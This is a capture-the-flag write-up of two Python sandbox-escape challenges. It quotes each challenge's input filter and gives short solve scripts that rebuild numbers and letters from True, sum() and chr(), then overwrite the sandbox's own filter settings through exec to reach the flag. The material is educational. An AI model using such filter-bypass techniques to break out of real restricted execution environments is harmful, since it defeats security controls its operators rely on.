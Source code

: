 # Legerdemain

![head](images/head1.png)

This challenge is a pyjail. Let's see the interesting parts in the script : 

```py
p = {
    # Filter testing
    "banned words":     ["get","any","all","char","in","input","or","and","len","flag"],
    "banned chars":     '_-+.0123456789\\o',
    "max length":       18,
    "ban unicode":      True,
    # Main setup
    "is prod":          True,
    "use audithook":    False,
    "use debugger":     False,
    "use backups":      False,
    # Vars
    "globals backup":   globals(),
    "builtins backup":  __builtins__,
    "vars":             [],
    # Debug
    "debug extra":      True,
    "debug list":       ["onion"],
    "debug text":       "",
}


...


if __name__=="__main__":
    print(TITLE)
    while True:
        print(CHOICES)
        choice = input(">>>").strip()
        match choice:
            case "1":
                inp = input("Test your instruction chief!\n>>> ")
                if p["ban unicode"] and any(map(lambda x:ord(x)>128, inp)): inp = "print('gotcha!')"
                if len(inp)>p["max length"] or any(bw in inp for bw in p["banned words"]) or any(bc in inp for bc in p["banned chars"]): inp = "print('gotcha!')"
                try:
                    exec(inp)
                except:
                    print("WARNING: Bypass possible ! (or just a bad payload...)")
```

We can see, based on the filter, that we can't put unicode, we can't use the words `["get","any","all","char","in","input","or","and","len","flag"]` and we can't use the letters `_-+.0123456789\\o` with a maw length of 18 chars.

First interesting things : chr() isn't blocked, = isn't blocked and f strings aren't blocked.

So if we can have a number, we can basically just overwrite the configuration (as it's ran in global scope) with someting like `p[f"max l{chr(x)}ngth"]=x*x`, this would set the the max length to x*x which is a lot.

Looking at the authorized words, I found out that `True` was fine. True means the number 1. Unfortunately, `+` is banned, so I had to think a bit more and found `sum([True,True])=2`.

Now that we can have numbers, lets exploit it to remove all constraints.

```python
t=True
a=sum([t,t,t])
b=a*a*a*a
c=sum([a*a,b])
c=sum([c,a,a,t])
l=sum([a,c,t]) # = 101 = ord('e')
l=chr(l)
g=f"max l{l}ngth"
p[g]=c*c*c # changing max length

au=chr(sum([a*a,t,c,a,t])) # = ord('o')
p[f"banned w{au}rds"]=[]

lea=chr(sum([b,a*a,a,a,t])) # = ord('a')
p[f"banned ch{lea}rs"]=""
print(vars())
```

![solve1](images/solve1.png)

And that's a flag ! 

# Legerdemain Revenge

![head](images/head2.png)

The filter was changed a bit :

```python
p = {
    # Filter testing
    "banned words":     ["get","any","all","print","in","char","or","and","len","flag","str","exec","eval"], # Now that's a good list :)
    "banned chars":     '_-+.0123456789\\of', # OF course :p
    "max length":       18,
    "ban unicode":      True,
    # Main setup
    "is prod":          True,
    "use audithook":    False,
    "use debugger":     False,
    "use backups":      False,
    # Vars
    "globals backup":   globals(),
    "builtins backup":  __builtins__,
    "vars":             [],
    # Debug
    "debug extra":      True,
    "debug list":       ["onion"],
    "debug text":       "",
}
```

So `f` was banned, which meant no f strings .... That's where the F STRINGS come.

So I just replaced f"..." with F"..."


```python
t=True
a=sum([t,t,t])
b=a*a*a*a
c=sum([a*a,b])
c=sum([c,a,a,t])
l=sum([a,c,t]) # = 101 = ord('e')
l=chr(l)
g=F"max l{l}ngth"
p[g]=c*c*c # changing max length

au=chr(sum([a*a,t,c,a,t])) # = ord('o')
p[F"banned w{au}rds"]=[]

lea=chr(sum([b,a*a,a,a,t])) # = ord('a')
p[F"banned ch{lea}rs"]=""
print(vars())
```

![solve2](images/solve2.png)

And here commes the second flag.

Thanks for the challenges.